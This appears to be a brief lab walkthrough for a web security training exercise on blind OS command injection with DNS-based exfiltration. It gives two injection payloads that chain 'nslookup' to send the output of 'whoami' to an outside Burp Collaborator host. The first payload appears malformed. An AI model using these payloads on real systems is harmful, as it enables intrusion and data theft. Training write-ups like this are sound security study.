

# Blind OS command injection with out-of-band data exfiltration

```text
To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator.
 You will need to enter the name of the current user to complete the lab.
```
## Solution -

Same process as above but add this payload you can use one this paylaods

1 : 
```bash
& nslookupwhoami.x9k7m2qv5t1s8n4d6r3p0h7c1w5z8b2.burpcollaborator.net # 
```
2: 
```bash
& nslookup $(whoami).x9k7m2qv5t1s8n4d6r3p0h7c1w5z8b2.burpcollaborator.net #
```
We get the username in the details panel - ``peter-iQRvf5``




After Geting The Username The Lab Should Slove Itself 
